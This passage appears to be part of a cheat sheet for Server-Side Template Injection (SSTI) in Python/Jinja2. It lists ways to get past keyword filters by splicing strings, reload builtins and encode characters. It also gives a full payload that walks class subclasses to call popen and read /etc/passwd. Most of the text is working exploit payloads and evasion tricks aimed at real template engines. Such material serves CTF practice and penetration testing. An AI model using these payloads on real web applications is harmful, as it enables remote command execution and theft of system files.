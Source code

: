 - Reload through reload to restore built-in functions

```python
reload(__builtins__)
```

### Filter config, request and class
- There is a session object in the official document. Session is a dict object, so the corresponding class can be accessed through the key method. Since the key is a string, it can be bypassed by string splicing. Payload: `{{ session['__cla'+'ss__'] }}` can bypass filtering and access the class, and then access the base class, execute commands, etc.

### Filter config, request, class, __init__, file, __dict__, __builtines__, __import__, getattr and os
- There is a `__enter__` method in Python3, and there is also a `__globals__` method available, and it is exactly the same as `__init__`

```python
__init__ (allocation of the class)
__enter__ (enter context)
__exit__ (leaving context)

{{ session['__cla'+'ss__'].__bases__[0].__bases__[0].__bases__[0].__bases__[0].__bases__[0]['__subcla'+'sses__']()[256].__enter__.__globals__['po'+'pen']('cat /etc/passwd').read() }}
```

## trick
### Several ways to represent Python characters
```python
Hexadecimal \x41

Eight \101

unicode \u0074

base64 'X19jbGFzc19f'.decode('base64') python3

join "fla".join("/g")

slice "glaf"[::-1]

lower/upper ["__CLASS__"|lower

format "%c%c%c%c%c%c%c%c%c%c%c"|format(95,95,99,108,97,115,115,95,95)

replace "__claee__"|replace("ee","ss")

reverse "__ssalc__"|reverse
```

### Several ways to get key values ​​or subscripts in Python dictionary or list
```python
dict['__builtins__']

dict.__getitem__('__builtins__')

dict.pop('__builtins__')

dict.get('__builtins__')

dict.setdefault('__builtins__')

list[0]
```